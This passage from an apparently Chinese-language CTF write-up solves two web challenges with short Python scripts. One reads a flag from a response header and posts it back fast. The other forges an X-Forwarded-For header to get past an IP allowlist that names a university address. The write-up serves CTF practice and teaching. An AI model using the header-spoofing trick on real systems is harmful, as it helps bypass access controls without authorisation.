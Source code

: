 请求的页面不能加上login..., 也不需要再次登录，直接带cookie去get请求就出flag了..

## 0x04 fast
SCUCTF还没开始出题人就秀了一把他出的题目，给我看了headers, 我不知道是啥，他说了句，实验吧的天下武功唯快不破。

搜了一下思路有了，拿到flag发送回去就好，poc如下


```python
import requests
import base64

url = 'http://223.129.64.72:5000/'

r = requests.Session()
flag = r.get(url).headers['Flag']

print flag
flag = flag[5:]
# data = base64.b64encode(flag)

# flag = 'flag{%s}' % data
print flag
payload = {
        'flag':flag
        }
t = r.post(url+'flag', data=payload)
# t = r.get(url, params=payload)
print t.url
print t.text
```


但是还有个坑，部署他用的uwsgi, 这个针对时间要求特别高的不行，支持很差，第一天没人提交..23333我是第一天晚上才开始做这次的ctf的，那时候还没人提交这道题。

我问题哪里没对么，他说...服务器没对，2333，他重新搞了下，等我回寝室提交的时候就可以了，但是不是一血，有一个人在我之前提交了。

## 0x05 ip
打开显示


```html
您的IP是：121.48.213.217<br>不在允许范围，本系统仅允许202.115.47.141访问
```

觉得是学校的服务器的网段，扫了下扫不动，后来才知道这个是教务处的233333333333

改`X-Forwarded-For`头就行了，伪造来源ip, 利用的poc如下

```python
#! coding:utf-8
import requests

url = 'http://119.29.16.200:5004'

r = requests.get(url)
print r.encoding
r.encoding = 'utf-8'
print r.text

payload ={
        'X-Forwarded-For': '202.115.47.141'
        }
r = requests.get(url, headers=payload)
print r.url
print r.encoding
r.encoding = 'utf-8'
print r.text
```